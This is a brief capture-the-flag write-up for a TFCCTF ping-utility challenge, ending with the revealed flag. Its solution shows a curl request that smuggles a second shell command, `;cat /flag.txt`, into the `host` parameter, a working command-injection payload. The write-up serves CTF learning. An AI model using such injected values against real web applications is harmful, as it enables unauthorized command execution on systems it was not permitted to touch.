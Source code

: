 #### Challenge:

Some random website that can ping hosts.

---

#### Solution:

We are given a website that is able to run `ping` command based on `host` parameter in URL.
Command injection served on silver plate:

```
curl http://01.linux.challenges.ctf.thefewchosen.com:51042/index.php?host=127.0.0.1;cat%20/flag.txt
```

---

<details><summary>FLAG:</summary>

```
TFCCTF{C0mm4nd_1nj3c5i0n_1s_E4sy}
```

</details>
<br/>
